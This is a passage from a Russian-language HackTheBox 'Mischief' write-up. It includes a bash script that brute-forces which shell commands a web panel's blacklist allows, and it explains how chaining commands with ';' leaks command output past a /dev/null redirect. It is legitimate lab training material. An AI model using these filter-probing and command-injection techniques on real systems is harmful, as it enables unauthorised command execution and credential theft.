 ```html
                <p>
                <p>In my home directory, i have my password in a file called credentials, Mr Admin
                <p>

</body>
</html>
Command is not allowed.
```

И для автоматизации процесса набросаем небольшой скрипт, который будет принимать словарь, содержащий список команд для проверки (команды возьмем [отсюда](https://ss64.com/bash/ "An A-Z Index of the Linux command line / SS64.com"), к примеру, чтобы не придумывать самому):
```bash
#!/usr/bin/env bash

# Usage: ./test_waf_blacklist <IP_STR> <COOKIE_STR> <DICT_FILE>

IP=$1
COOKIE=$2
DICT=$3

G="\033[1;32m" # GREEN
R="\033[1;31m" # RED
NC="\033[0m"   # NO COLOR

for cmd in $(cat ${DICT}); do
	curl -6 -s -X POST "http://[${IP}]:80/" -H "Cookie: ${COOKIE}" -d "command=${cmd}" | grep -q "Command is not allowed."
	if [ $? -eq 1 ]; then
		echo -e "${G}${cmd}${NC} allowed"
	else
		echo -e "${R}${cmd}${NC} blocked"
	fi
done
```

В качестве результата имеем:

[![test-waf-blacklist-1.png]({{ "/img/htb/boxes/mischief/test-waf-blacklist-1.png" | relative_url }})]({{ "/img/htb/boxes/mischief/test-waf-blacklist-1.png" | relative_url }})
{: .center-image}

[Здесь]({{ page.url }}#waf) мы обсуждаем, как именно устроен процесс фильтрации.

# Угон аккаунта Локи
## Смотрим результат выполнения команд
Размышляя о том, как осуществляется анализ результата выполнения запрошенной команды в Command Execution Panel, я предположил самое очевидное: вывод редиректится в /dev/null, а успех выполнения оценивается по коду возврата. Только вот пайпы и редиректы в этих ваших башах штука замороченная, и за мисконфиг можно дорого поплатиться. Например, если неправильно организовать перенаправление при сцеплении двух команд с помощью `;`, то в /dev/null отправится только результат выполнения последней команды в цепочке, а все, что было *до*, благополучно уйдет в stdout.


[//]: # (2019-08-20)